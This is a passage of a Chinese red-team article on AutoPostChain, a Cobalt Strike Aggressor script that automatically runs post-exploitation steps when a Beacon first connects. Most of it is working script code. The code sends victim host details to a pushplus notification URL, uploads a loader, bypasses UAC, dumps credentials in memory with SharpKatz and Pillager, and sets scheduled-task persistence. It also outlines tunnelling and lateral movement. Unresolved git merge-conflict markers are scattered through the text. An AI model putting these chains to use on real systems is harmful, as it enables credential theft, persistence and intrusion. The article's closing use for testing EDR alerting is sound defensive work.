    ```
    
6.  直接运行 CS 自带 getsystem 功能
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    item "Get-System" {
             binput($1,"getsystem");
             bgetsystem($1);
     }
    ```
    
<<<<<<< HEAD
7.  直接运行注册好的 BOF 命令（ 条件：需要用户侧加载脚本注册对应命令 ）
    
    ```plain
=======
7.  直接运行注册好的 BOF 命令（条件：需要用户侧加载脚本注册对应命令）
    
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    fireAlias($1, "inlineExecute-Assembly", "--dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys");
    ```
    

#### 推荐执行函数

从 OPSEC 的原则来看推荐用以下几种方式执行：

1.  **加载并执行 BOF 程序**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    beacon_inline_execute($1, readbof($1, "whoami"), "go", $null);
    ```
    
2.  **AutoPostChain 封装好的 InlineExecute-Assembly 函数**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    ```
    
3.  **使用 InlineExecute-Assembly + SharpHunter 隐蔽执行命令**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "run \"whoami /all\"");
    ```
    

从现有技术来看远远不止这几类执行方式，比如针对 GO 语言为主的大量可执行后渗透工具，同样可以封装函数来实现不落地的情况下加载执行，这里不再阐述。

#### 上线自动触发

**[beacon\_initial](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_events.htm#beacon_initial)** 函数会在 Beacon 第一次回联时触发，AutoPostChain 的主要操作逻辑都放在这个函数中：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {
        bsleep($1, $sleepTime);
    blog($1,"\c9Automated Post Exploitation Chain (@lintstar)"); 

    # 获取主机信息
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $processName = replace(beacon_info($1, "process"), " ", "_");
    $pidName = replace(beacon_info($1, "pid"), " ", "_");
    $archName = replace(beacon_info($1, "arch"), " ", "_");
    $onlineUrl = 'https://www.pushplus.plus/send?token='.$pushplusToken.'&title=%5B'.$cserverName.'%5D%20%E5%92%AC%E9%92%A9%20%F0%9F%8E%AE%20'.$processName.'&template=markdown&content=HostName%3A%20'.$computerName.'%0A%0AExternal%3A%20'.$externalIP.'%0A%0AInternal%3A%20'.$internalIP.'%0A%0AUserName%3A%20'.$userName.'%0A%0AProcess%3A%20'.$processName.'%0A%0APid%3A%20'.$pidName;
        beacon_inline_execute($1, readbof($1, "whoami"), "go", $null);
        beacon_inline_execute($1, readbof($1, "ipconfig"), "go", $null);
        beacon_inline_execute($1,readobj($1, "screenshot"), "go", $null);
}
```

通过简单的几行代码可以实现主机上线后自动执行 whoami、ipconfig、screenshot BOF 的效果：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172914-d36405c8-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172914-d36405c8-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

> 修复的 screenshot BOF 支持在 Windows 启动全局缩放时依然获取完整屏幕截图

在动态行为侧也远比以下操作更符合 OPSEC 原则：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {
        bsleep($1,"0");
        bshell($1,"whoami && ipconfig");
    binput($1,"screenshot");
    bscreenshot($1);
}
```

#### 上线提醒标记

除去常规提醒外，当有多台 C2 服务器时，配置好 cserverName 参数可以在通知标题进行上线提醒的区分：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
$cserverName = "AT";
$pushplusToken = "9db6ca2c7d0xxxxxxxxxxxx363854a8e0";
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172935-dffcd6ca-df89-1.png)

攻防场景下可通过上线进程来自动标记是针对哪个目标的终端权限上线了：

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172935-dffcd6ca-df89-1.png)

攻防场景下可通过上线进程来自动标记是针对哪个目标的终端权限上线了：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
sub Note {
    if ($processName eq "beacon.exe") {
        bnote($1, "test");
    }
    else if ($processName eq "个人简历.exe") {
<<<<<<< HEAD
        bnote($1, "XX单位社工钓鱼");
=======
        bnote($1, "XX 单位社工钓鱼");
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    }
    else if ($processName eq "javaEE.exe") {
        bnote($1, "维权上线");
    } 
    else if ($processName eq "Update.exe") {
<<<<<<< HEAD
        bnote($1, "BypassUAC上线");
=======
        bnote($1, "BypassUAC 上线");
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    } 
}
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172948-e7e03648-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172948-e7e03648-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 0x06 存活权限判断

[**\-isactive**](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#-isactive) 用来检查会话是否处于活动状态。如果 Beacon 会话未确认退出消息，并且 Beacon 未断开与父信标的连接，则认为 Beacon 仍然处于活动状态。

例如当主动退出 Beacon 后心跳还在 1m 内，但是不会被判断为存活：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173003-f0b46db6-df89-1.png)

结合 `if ($lastTime <= 60000)` 判断，就能避免当 Beacon 掉线后下面这种错误判断的情况：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173014-f7372af2-df89-1.png)

为了解决重复执行相同自动化操作比如重复自动维权的问题，通过 `if ($hName eq $computerName && $inIP eq $internalIP)` 判断遍历的主机名和内网 IP 地址是否和当前主机相同，使用变量 `x` 来对当前主机的存活数进行统计：

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173003-f0b46db6-df89-1.png)

结合 `if ($lastTime <= 60000)` 判断，就能避免当 Beacon 掉线后下面这种错误判断的情况：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173014-f7372af2-df89-1.png)

为了解决重复执行相同自动化操作比如重复自动维权的问题，通过 `if ($hName eq $computerName && $inIP eq $internalIP)` 判断遍历的主机名和内网 IP 地址是否和当前主机相同，使用变量 `x` 来对当前主机的存活数进行统计：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# 如果遍历的 hName 与当前会话的 computerName 相同，则 x+1
if ($hName eq $computerName && $inIP eq $internalIP) {
# if ($inIP eq $internalIP) {
    $x = $x + 1;                            
}
```

同时在后渗透中针对不同权限能做的事情也不一样，比如获取缓存的 RDP 连接密码等操作就需要管理员权限，所以通过 `-isadmin` 来判断当前主机是否为管理员权限并用变量 `y` 进行统计：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# 如果为管理员权限，则 y+1
if (-isadmin $bid) {
    $y = $y + 1;
}
```

那么普通用户权限的数量就可以用变量 z 来进行统计：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
$z = $x - $y
```

因此 AutoPostChain 实现存活的权限判断逻辑如下：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {

    bsleep($1, $sleepTime);
    blog($1,"\c9Automated Post Exploitation Chain (@lintstar)"); 

    # 获取主机信息
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $listennerName = replace(beacon_info($1, "listener"), " ", "_");
    $processName = replace(beacon_info($1, "process"), " ", "_");
    $pidName = replace(beacon_info($1, "pid"), " ", "_");
    $archName = replace(beacon_info($1, "arch"), " ", "_");

###### 存活逻辑判断

    $x = 0;
    $y = 0;
    $z = 0;

    foreach $bid (beacon_ids()) {

        # bid 遍历主机信息信息
        $inIP = replace(beacon_info($bid, "internal"), " ", "_");
        $uName = replace(beacon_info($bid, "user"), " ", "_");
        $prName = replace(beacon_info($bid, "process"), " ", "_");
        $piName = replace(beacon_info($bid, "pid"), " ", "_");
        $hName = replace(beacon_info($bid, "computer"), " ", "_");
        $lastTime = replace(beacon_info($bid, "last"), " ", "_");

        # if ($lastTime <= 60000) {
        if (-isactive $bid && $lastTime <= 60000) {

            @ip[$x] = $inIP;
            @pid[$x] = $piName;
            @pro[$x] = $prName;
            @last[$x] = $lastTime;
            @un[$x] = $uName;

            # 如果遍历的 hName 与当前会话的 computerName 相同，则 x+1
            if ($hName eq $computerName && $inIP eq $internalIP) {
            # if ($inIP eq $internalIP) {
                $x = $x + 1;

                # 如果为管理员权限，则 y+1
                if (-isadmin $bid) {
                    $y = $y + 1;
                }
                $z = $x - $y                              
            }
        }
    }

    blog($1, "\c8=====================");
    blog($1, "\c8当前主机总存活数： $+ $x");
    blog($1, "\c8管理员权限会话存活数： $+ $y");
    blog($1, "\c8用户权限会话存活数： $+ $z");    
    blog($1, "\c8=====================");
}
```

### 0x07 执行场景判断

对于实战中 Beacon 上线主要是以下四类场景：

<<<<<<< HEAD
1.  直接上线普通用户权限 Session（ 无 UAC ）
2.  直接上线管理员用户权限 Session（ 俗称带 \* 权限 ）
=======
1.  直接上线普通用户权限 Session（无 UAC）
2.  直接上线管理员用户权限 Session（俗称带 \* 权限）
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
3.  先上线普通用户权限，通过 **BypassUAC** 或 **权限提升** 操作再上线管理员用户权限 Session
4.  重复上线任意权限 Session

相比普通权限用户 Session，管理员权限用户 Session 在凭据获取、隐蔽权限维持等方面有更多方式，同时又要避免重复执行，因此 场景 2 的执行流程 = 场景 1 + 场景 3

#### 自动权限维持场景

这里用两个场景函数进行编排示例：

-   `NormalUser_Chain` 函数用来编排不需要管理员权限即可执行的操作如信息收集、屏幕截图、上传文件等；
-   `OnlyAdmin_Chain` 函数用来编排只有管理员权限才能做的操作比如凭据获取、隐蔽权限维持等。

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
##### 用户执行链编排
sub NormalUser_Chain {
    UP_Loader($1);
    beacon_inline_execute($1,readbof($1, "whoami"), "go", $null);
    beacon_inline_execute($1,readbof($1, "ipconfig"), "go", $null);
    beacon_inline_execute($1,readobj($1, "screenshot"), "go", $null);
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHostInfo.exe"), "-i $internalIP\/24");
}

sub BypassUAC {
    inlineExecute-Assembly($1,script_resource("/scripts/SharpBypassUAC.exe"), "-b computerdefaults -e $b64encodeFullPath");
}

sub OnlyAdmin_Chain {
    inlineExecute-Assembly($1,script_resource("/scripts/SharpKatz.exe"), "");
    Pillager($1);
    inlineExecute-Assembly($1, script_resource("/scripts/SharpSchTask.exe"), "$LoaderFullPath 1");
}
```

其中 `NormalUser_Chain` 执行流程如下：

1.  上传木马到指定目录：
    
<<<<<<< HEAD
    ```plain
    sub UP_Loader {
        bcd($1, $LoaderPath);
        blog($1,"\c9开始上传 Loader");
        bupload($1, script_resource("/scripts/".$LoaderName));
        blog($1, "\c8Loader 文件上传完成");
        blog($1, "\c8Loader文件位置：$LoaderFullPath");
    }
    ```
    
2.  调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot ；
=======
    ```bash
    sub UP_Loader {
        bcd($1, $LoaderPath);
        blog($1,"\c9 开始上传 Loader");
        bupload($1, script_resource("/scripts/".$LoaderName));
        blog($1, "\c8Loader 文件上传完成");
        blog($1, "\c8Loader 文件位置：$LoaderFullPath");
    }
    ```
    
2.  调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot；
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    
3.  调用 `inlineExecute-Assembly` 函数执行 SharpHunter 工具的 sys 参数获取主机基本信息；
    
4.  调用 `inlineExecute-Assembly` 函数通过 SharpHostInfo 扫描当前 C 端主机信息。
    

而 `BypassUAC` 调用 `inlineExecute-Assembly` 函数执行 SharpBypassUAC 工具通过 `computerdefaults` 技术以及编码后的木马路径进行 UAC 绕过，并上线管理器权限 Session。

最后 `OnlyAdmin_Chain` 执行流程如下：

1.  调用 `inlineExecute-Assembly` 函数执行 SharpKatz 工具内存中加载 mimikatz 获取主机凭据；
2.  执行 Pillager BOF 程序不落地的情况下收集主机浏览器、软件、账户凭据等敏感信息；
3.  调用 `inlineExecute-Assembly` 函数执行 SharpSchTask 工具进行隐蔽权限维持。

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173040-06d283bc-df8a-1.png)

通过 `isadmin` 结合存活权限判断中的三个变量的值即可通过取巧的方式实现上述执行场景流程的编排：

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173040-06d283bc-df8a-1.png)

通过 `isadmin` 结合存活权限判断中的三个变量的值即可通过取巧的方式实现上述执行场景流程的编排：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
##### 场景流程编排

Note($1);
if (!-isadmin $1) {
    http_get($onlineUrl);
<<<<<<< HEAD
    blog($1, "\c9普通用户权限");
=======
    blog($1, "\c9 普通用户权限");
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

    # 场景1：直接上线普通用户权限
    if ($x < 2) {   
            NormalUser_Chain($1);
            BypassUAC($1);

    # 场景4：重复上线普通用户权限  
    } else {
        blog($1, "\cB当前主机存活数大于2 请检查是否已提升至管理员权限 [ AutoPostChain End ]");
    }
} else {
    http_get($onlineUrl);
<<<<<<< HEAD
    blog($1, "\c9管理员权限");
=======
    blog($1, "\c9 管理员权限");
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

    # 场景3：普通用户绕 UAC 上线管理员权限
    if ($y < 2 && $z > 0) {
            blog($1, "\c8该管理员会话为普通用户通过绕 UAC 上线 不再进行 UAC Bypass");
            OnlyAdmin_Chain($1);

    # 场景2：直接上线管理员权限
    }else if ($y < 2 && $z < 1) {           
         NormalUser_Chain($1);
         OnlyAdmin_Chain($1);

    # 场景4：重复上线管理员权限
    }else {
        blog($1, "\cB该IP存活数量大于2 且已经存在管理员权限会话 [ AutoPostChain End ]");
    }
}
```

这样通过 BypassUAC 二次上线管理员权限时，将只会执行 `OnlyAdmin_Chain($1);` ：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173057-10de96ac-df8a-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173057-10de96ac-df8a-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 0x08 执行结果交互

**[beacon\_output](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_events.htm#beacon_output)** 函数当输出发布到 Beacon 的控制台时触发，通过这个事件函数，可以监听工具在控制台的输出来达成 CS 与工具执行结果交互的效果，在 LSTAR 后渗透插件 ( [https://github.com/lintstar/LSTAR](https://github.com/lintstar/LSTAR) ) 中的 AntiVirusCheck 功能实现了上线自动获取杀软信息并回显 Beacon 状态栏：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173119-1daecaaa-df8a-1.png)

这里采用类似的原理监听 SharpHunter.exe 获取的 Windows 主机信息，示例功能函数如下：

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173119-1daecaaa-df8a-1.png)

这里采用类似的原理监听 SharpHunter.exe 获取的 Windows 主机信息，示例功能函数如下：

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
sub osinfo {
    $bid = $1;
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    on beacon_output {
        $message = $2;
        $ip_address = "";
        $antivirus = "";

        if ("[*] Hunt End" isin $message) {
            @data = $message;
            println("================================");
            println("[+] Data collection complete");
            @lines = split("\n", @data);
            foreach $line (@lines) {
                $ip = binfo($1)['internal'];
                if ("IPv4Addr" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $ip_address = @parts[1];
                    }
                }
                if ("Antivirus" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $antivirus = @parts[1];
                    }
                }
                if ("OSVersion" isin $line) {
                    @parts = split(": ", $line);
                    if (size(@parts) > 1) {
                        $os_version = @parts[1];
                    }
                }
            }
            println("[+] IP Address : " . $ip_address);
            println("[+] Os Version : " . $os_version);
            println("[+] Antivirus : " . $antivirus);
        }else{
          exit();
        }
    }   
}
```

`osinfo` 函数通过一个标识符 `[*] Hunt End` 代表工具执行结束，获取控制台的执行结果输出并处理成数组，提取 IPv4 地址、系统版本、杀软信息等数据，当主机上线时会在脚本控制台打印：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173537-b789ef88-df8a-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173537-b789ef88-df8a-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

利用这种方式可以做一些工具和 CS 以及工具和工具之间的联动：例如根据 Windows 系统版本和杀软信息执行不同的 BypassUAC 技术、根据内网扫描工具如 fscan 的 MS17-010 扫描结果结合内存加载的 C# 永恒之蓝工具 [Eternalblue](https://github.com/lassehauballe/Eternalblue) 进行利用等。

## 流程编排示例

通过上述思路，在考虑 OPSEC 原则的基础上参考以下示例进行改进和优化：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173552-c0d27bb4-df8a-1.png)

上线提醒 > 上传 Loader > 自动信息收集 > 权限维持 > 上传其他 PE > 构建隧道 > 获取凭据 > 探测内网 > 横向移动

```plain
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173552-c0d27bb4-df8a-1.png)

上线提醒 > 上传 Loader > 自动信息收集 > 权限维持 > 上传其他 PE > 构建隧道 > 获取凭据 > 探测内网 > 横向移动

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http_get($onlineUrl);
    UP_Loader($1, $LoaderPath, $LoaderPath);
    PC_Getinfo($1);
    SC_Command($1, $LoaderPath);
    UP_Tunnel($1, $TunnelPath, $TunnelPath);
    UP_Hbdata($1, $HbdPath, $HbdPath);
    UP_Scaner($1, $FscanPath, $FscanPath);
    Run_Tunnel($1);
    PassCapture($1);
    Run_Scanner($1, $internalIP);
    PsExec($1);
```

自动构建隧道（示例）

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173605-c8660292-df8a-1.png)

自动横向域控（示例）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173615-ce335576-df8a-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173605-c8660292-df8a-1.png)

自动横向域控（示例）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311173615-ce335576-df8a-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## 总结

在攻防实战中，借助 AutoPostChain 的实现思路可以根据需要对自动化链进行灵活的定制，同时从 OPSEC 的原则考虑，也需要不断的针对不同阶段的木马、工具、手法进行针对性免杀、移植 BOF 等功能来执行敏感命令和进行高危操作，保证自动化链过程中的各类操作足够隐蔽，防止刚上线就触发告警被踢出局。

从企业安全建设角度考虑，可以将渗透攻击中的大量工具以及手法借助 AutoPostChain 落地为不同的攻击行为链来检验内网的各类设备是否能正常告警拦截，也可针对例如执行系统命令场景、隧道构建场景、横向移动场景等参考 [About-Attack](https://github.com/lintstar/About-Attack) 等项目集成该类型工具进行主机 EDR、终端 AV、内网态势感知等设备安全效果的验证。

## Reference

-   [https://www.mdsec.co.uk/2020/06/detecting-and-advancing-in-memory-net-tradecraft/](https://www.mdsec.co.uk/2020/06/detecting-and-advancing-in-memory-net-tradecraft/)
-   [https://tttang.com/archive/1612/](https://tttang.com/archive/1612/)
-   [https://tttang.com/archive/1786/#toc\_0x08-execuate-assembly](https://tttang.com/archive/1786/#toc_0x08-execuate-assembly)
-   [https://github.com/h0e4a0r1t/Automatic-permission-maintenance](https://github.com/h0e4a0r1t/Automatic-permission-maintenance)
-   [http://sleep.dashnine.org/manual/](http://sleep.dashnine.org/manual/)
-   [https://github.com/gooderbrother/antiVirusCheck](https://github.com/gooderbrother/antiVirusCheck)
